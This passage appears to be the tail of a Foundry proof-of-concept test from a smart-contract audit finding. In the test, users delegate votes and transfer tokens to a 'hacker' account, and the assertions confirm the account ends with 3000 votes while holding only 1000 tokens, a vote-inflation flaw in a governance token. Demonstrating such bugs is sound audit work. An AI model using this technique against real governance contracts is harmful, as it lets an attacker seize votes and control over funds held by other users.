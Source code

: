 ```js
        // console.log("Bob's bakance: ", vToken.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(carl);
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(hacker, 1000);
        // console.log("Carl's bakance: ", vToken.balanceOf(carl));
        vm.stopPrank();

        console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

        hacker_vote = vToken.getVotes(hacker);
        console.log("Vote Count of Hacker after attack: %s ", hacker_vote);

        uint hacker_balance = vToken.balanceOf(hacker);
        console.log("Hacker's vToken after the attack: %s ", hacker_balance);

        assertEq(hacker_vote, 3000);
        assertEq(hacker_balance, 1000);
    }
}

```


![](/assets/voting_m2.png)